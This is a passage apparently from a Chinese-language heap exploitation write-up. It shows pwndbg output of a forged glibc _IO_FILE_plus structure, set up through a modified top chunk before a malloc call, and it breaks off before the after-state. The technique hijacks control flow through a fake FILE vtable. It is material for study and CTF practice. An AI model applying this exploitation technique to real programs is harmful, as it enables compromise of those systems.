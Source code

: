 ```shell
pwndbg>
```

最后修改完Top chunk,构造好Fake FILE:

```c
 ► 254     malloc(10);
```

malloc()前：

```shell
pwndbg> p *((struct _IO_FILE_plus*) 0x602400)
$1 = {
  file = {
    _flags = 1852400175,
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>,
    _IO_read_end = 0x7ffff7dd1b78 <main_arena+88> "\020@b",
    _IO_read_base = 0x7ffff7dd2510 "",
    _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>,
    _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x0,
    _fileno = 0,
    _flags2 = 0,
    _old_offset = 4196239,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x0,
    _offset = 0,
    _codecvt = 0x0,
    _wide_data = 0x0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x602460
}
```

后：
